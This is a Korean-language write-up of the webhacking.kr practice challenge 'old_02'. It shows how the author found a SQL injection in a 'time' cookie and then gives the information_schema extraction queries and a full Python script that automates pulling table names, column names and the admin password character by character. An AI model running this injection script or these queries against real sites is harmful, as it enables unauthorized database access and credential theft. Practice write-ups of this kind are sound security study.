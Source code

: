 <details>
    <summary>python code</summary>

```python
from pwn import *
```

</details>

## old_02

![vmware_WWvlGzR1z0](https://user-images.githubusercontent.com/79683414/142334224-11fd6d90-215e-422f-9b0b-0a02034d3036.png)

```html
<!--
2021-11-18 10:26:21
-->
<h2>Restricted area</h2>Hello stranger. Your IP is logging...
<!-- if you access admin.php i will kick your ass -->
```

<br>

<br>

_admin.php_

![vmware_SBpAYYz30J](https://user-images.githubusercontent.com/79683414/142334451-d13ff3bb-ebfc-421a-9eba-bc0358d126f8.png)



<br>

admin.php 에서는 POST 로 패스워드를 보내는 형식이다. 스크립트 태그와 SQL 인젝션을 테스트 했지만 취약점이 확인되지 않았다.

처음엔 아무렇지 않게 넘겼지만, Redirected area에 수상한 점이 있다.

접속한 시간대가 표시되고 있다.

<br>

![vmware_ZLUwU7DfDd](https://user-images.githubusercontent.com/79683414/142334941-8c6bb4d1-c434-47b4-9493-8da4c185a2d3.png)

<br>

Burpsuite 로 패킷을 분석해보았다.

<br>

![vmware_m5widKW9CY](https://user-images.githubusercontent.com/79683414/142335166-a812960d-df6c-41a7-9975-c532639f68ac.png)

<br>

현재 시간을 받아와서 어떤 변환을 거쳐 Cookie: time 값으로 세팅되는 듯 한데,

어떤 식으로 동작하는지, Repeater를 이용해 여러 값을 테스트했다.

<br>

![vmware_hfrQtFlNnP](https://user-images.githubusercontent.com/79683414/142336093-e53e7160-8eef-44fb-a43c-95a01a4987d4.png)

![vmware_lKW7RKOAOi](https://user-images.githubusercontent.com/79683414/142336050-528f0e7c-8315-4013-978a-bd1050550a0f.png)

![vmware_gisBhzKPZy](https://user-images.githubusercontent.com/79683414/142336211-91c42e43-2ee4-412b-8186-889c18a6eebf.png)

![vmware_XGn6C0sYXv](https://user-images.githubusercontent.com/79683414/142336229-2a33661d-e121-466b-be21-8fc172802dea.png)<br>

time=0 인 경우, 값이 다시 세팅되 버린다.

1, 2, 123 을 대입했을 때의 결과를 보면, 정수값을 '분/초' 로 변환하고 있다는 것을 알 수 있다.

여기도 스크립트나 SQL 을 테스트 해 보자.

<br>

![vmware_DrmXgJiXex](https://user-images.githubusercontent.com/79683414/142337192-43a362bb-a3fe-48e2-9ed1-4e2a0fbe8b4d.png)

![vmware_wYjdCNgcBe](https://user-images.githubusercontent.com/79683414/142338611-9c710c54-3da8-432d-a881-c87498f61378.png)
![vmware_IAVe1qM20n](https://user-images.githubusercontent.com/79683414/142338614-74f2cb7a-c51b-4dc5-babb-551d9f841c92.png)

<br>

추측해보면, time 의 값이 참이면 해당되는 정수값을 시간으로 변환하여 출력하는 듯 하다. 따라서, Boolean-Based SQL Injection 이 가능하다.

<br>

information_schema 를 이용하여 `개수 > 길이 > 이름` 순으로 데이터를 추출했다.

SQL 문은 `( )` 로 감싸주지 않으면 의도한 결과를 출력하지 않는다.

1. 테이블 개수 : select count(table_name) from information_schema.tables where table_schema=database()

2. 테이블 이름 길이 : select length(table_name) from information_schema.tables where table_schema=database() limit 0,1

3.테이블 이름: select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 0,1

<br>

![vmware_5tpZLzuthy](https://user-images.githubusercontent.com/79683414/142339222-9cabb5fa-5167-4f84-94ad-dd4914ebe8ef.png)

사용중인 Database에는 2개의 테이블이 있고,

<br>

![vmware_mH7o1ECqiZ](https://user-images.githubusercontent.com/79683414/142340121-83993c15-2bbe-46b6-8d2d-882fd119ef5d.png)

첫 번째 테이블명의 길이는 13 이다.

<br>

![vmware_8f6TRx7oYT](https://user-images.githubusercontent.com/79683414/142340324-bfdc7379-3423-487c-9cb0-f206250443b5.png)

<br>

substring 을 이용해 문자 하나를 추출하고, 참인 정수값만 그대로 출력되기 때문에

ascii()를 이용한다. substring은 limit 와 다르게 index가 0 부터 시작한다.

나머지 과정은 아래와 같다.

<br>

- 컬럼 개수 : select count(column_name) from information_schema.columns where table_name="admin_area_pw"

- 컬럼 이름 길이: select length(column_name) from information_schema.columns where table_name="admin_area_pw" limit 0,1

- 컬럼 이름 : select ascii(substring(column_name, 1, 1)) from information_schema.columns where table_name="admin_area_pw" limit 0,1



_패스워드_

- select count(pw) from admin_area_pw

- select length(pw) from admin_area_pw limit 0,1

- select ascii(substring(pw, 1,1)) from admin_area_pw limit 0,1

<br>

이를 파이썬 코드로 자동화 해봤다.

<details>
    <summary>Python Code</summary>

```python
import urllib.request

sid = "h13d928d7pllpr3spvk7aebka3"
cookie = "time=({});PHPSESSID=" + sid
pre = {
    "count": "select count({}) from {} where {}",
    "len": "select length({}) from {} where {} limit {},1",
    "data": "select ascii(substring({}, 1)) from {} where {} limit {},1"
}


# 쿼리문 수행
def inject(query):
    url = "https://webhacking.kr/challenge/web-02/"
    req = urllib.request.Request(url)
    req.add_header("Cookie", cookie.format(query))
    res = urllib.request.urlopen(req)
    read = str(res.read().decode("utf-8")).split()
    time = list(map(lambda x: int(x), read[2].split(":")))
    return (60 * time[1]) + time[2]


# 데이터 개수 -> 각 데이터 길이 -> 한 글자씩 데이터 추출
def get_data(column, table, where):
    result = {}
    query = pre["count"].format(column, table, where)
    cnt = inject(query)
    print(query)
    print(cnt)
    if cnt > 20:
        return "Unavailable"
    for i in range(cnt):
        data = ""
        query = pre["len"].format(column, table, where, i)
        length = inject(query)
        print(query)
        print(length)
        # limit은 첫 인덱스가 0, substirng 은 1부터 시작이다...
        for j in range(1, length+1):
            query = pre["data"].format(column + "," + str(j), table, where, i)
            data += chr(inject(query))
            print(query)
            print(data)
        if where == "true":
            return data
        result[data] = {}
    return result


def get_tables():
    tables = get_data("table_name", "information_schema.tables", "table_schema=database()")
    for table in tables.keys():
        tables[table] = get_data("column_name", "information_schema.columns", "table_name=\"{}\"".format(table))
    return tables


def start_injection():
    tables = get_tables()
    print("[tables]")
    print(tables)
    for table in tables.keys():
        for col in tables[table]:
            data = get_data(col, table, "true")
            tables[table][col] = data
    print(tables)


if __name__ == "__main__":
    start_injection()

```

<br>

![pycharm64_mwTBEejV4T](https://user-images.githubusercontent.com/79683414/142340964-65bbf262-0948-4690-b756-83480feecb13.png)

</details>

